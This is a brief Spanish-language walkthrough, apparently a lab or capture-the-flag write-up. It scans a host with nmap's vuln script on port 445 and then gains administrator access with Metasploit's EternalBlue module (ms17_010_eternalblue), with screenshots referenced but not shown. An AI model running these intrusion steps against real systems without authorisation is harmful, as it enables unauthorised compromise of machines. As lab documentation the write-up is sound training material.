 Este sería el escaneo de nmap:
![[Pasted image 20240404103835.png]]
Vemos abierto el puerto 445, por lo que vamos a utilizar el script vuln de nmap para ver si es vulnerable:
```bash
nmap -p445 -sS --script='vuln'  -vvv -Pn 192.168.0.25
```
Y vemos que sí:
![[Pasted image 20240404104050.png]]
Buscamos este exploit en metasploit y lo encontramos:
![[Pasted image 20240404104122.png]]
Utilizaremos el primero de ellos, donde obtenemos acceso:
```bash
use windows/smb/ms17_010_eternalblue
```
![[Pasted image 20240404104223.png]]
Y ya somos el usuario administrador:
![[Pasted image 20240404104502.png]]
